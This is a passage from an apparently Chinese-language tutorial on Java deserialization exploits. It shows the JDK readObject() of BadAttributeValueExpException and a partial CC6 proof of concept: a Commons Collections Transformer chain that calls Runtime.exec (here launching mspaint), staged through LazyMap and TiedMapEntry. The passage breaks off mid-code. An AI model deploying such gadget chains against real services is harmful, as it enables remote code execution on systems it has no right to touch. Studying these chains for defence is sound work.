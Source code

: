 下面看到BadAttributeValueExpException#readObject()，可以看到会调用valObj#toString()：

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }

### CC6
直接给出POC，如下所示：

    public static Object getPayload() throws Exception{
        // 真正的执行链
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"mspaint"})
        };


        // 底层还是LazyMap触发Transformer链，先不放真正的Transformer，防止反序列化之前被触发
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(1)
        });

        // 准备LazyMap，想办法触发LazyMap#get()
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
